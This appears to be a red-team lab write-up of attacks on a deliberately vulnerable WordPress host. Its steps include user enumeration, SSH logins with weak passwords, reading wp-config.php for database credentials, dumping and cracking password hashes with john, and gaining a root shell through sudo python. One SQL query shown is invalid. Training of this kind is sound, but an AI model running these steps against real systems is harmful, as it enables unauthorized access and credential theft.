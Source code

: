 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
```

![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp | SSH | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp | http | Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp | rpcbind | 2-4 (RPC #1000000)
  - Port 139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - Port 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - Open/Unfiltered Ports 22 & 80
  
  ![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)
 
  - WordPress Enumeration
  
  ![Enumerated-Users](/Target-1-Screenshots/Enumerated-Users.png)
 
  - Weak User Credentials
  
   ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
   
  - Misconfigured User Privileges on Target System
  
   ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
   
  - Brute Force Attack
  
    ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)

  - Privilege Escalation (Python Library Hijacking)
    ![Privilege-Escalation](/Target-1-Screenshots/Privilege-Escalation.png)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862428d}
    - **Exploit Used**
      - Step 1: WordPress User Enumeration
        - ` wpscan --url http://192.168.1.110/wordpress --enumerate vp,u `
         ![WPScan-VPs-&-Users](/Target-1-Screenshots/WPScan-VPs-&-Users.png)
 
      - Step 2: SSH Login Using Weak Login Credentials
        - ` ssh michael@192.168.1.110, password: michael `
        ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
      - Step 3: File Directory Search
        - ` find . -iname "*flag1*" `
        ![Flag-1](/Target-1-Screenshots/Flag-1.png)
        
    
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Step 1: File Enumeration
        - ` ls -la /var/www `
      - Step 2: Misconfigured File Privileges
        - ` cat /var/www/flag2.txt `
      ![Flag-2](/Target-1-Screenshots/Flag-2.png)

  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Step 1: Misconfigured File Privileges
        - ` nano /var/www/html/wordpress/wp-config.php `
        ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
      - Step 2: MySQL Login
        - ` mysql --host=localhost --user=root --password=R@v3nSecurity `
        ![SQL-Login](/Target-1-Screenshots/MySQL-Login.png)
      - Step 3: Database Traversal & Table Enumeration
        - ` SHOW * FROM wp_posts; `
        ![Flag-3](/Target-1-Screenshots/Flag-3.png)
      

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

      - Step 1: MySQL WordPress Login Credential Enumeration
        ` SELECT user_login,user_pass FROM wp_users; ` 
        ![MySQL-Credentials](/Target-1-Screenshots/MySQL-Credentials.png)
      - Step 2: Brute Force
        - ` john --wordlist=rockyou.txt wp_hashes.txt `
        ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)
      - Step 3: SSH Login
        - ` ssh steven@192.168.1.110, password pink84 `
        ![Secure-User-Shell](/Target-1-Screenshots/Secure-User-Shell.png)
      - Step 4: Sudo Privileges Check
        - ` sudo -l `
        ![Sudo-Privileges-Check](/Target-1-Screenshots/Sudo-Privileges-Check.png)
      - Step 5: Privilege Escalation with Python Shell Spawn
        - ` sudo python -c 'import pty;pty.spawn("/bin/bash")' `
        ![Privilege-Escalation](/Target-1-Screenshots/Privilege-Escalation.png)
      -  Flag 4:
        ![Flag-4](/Target-1-Screenshots/Flag-4.png)
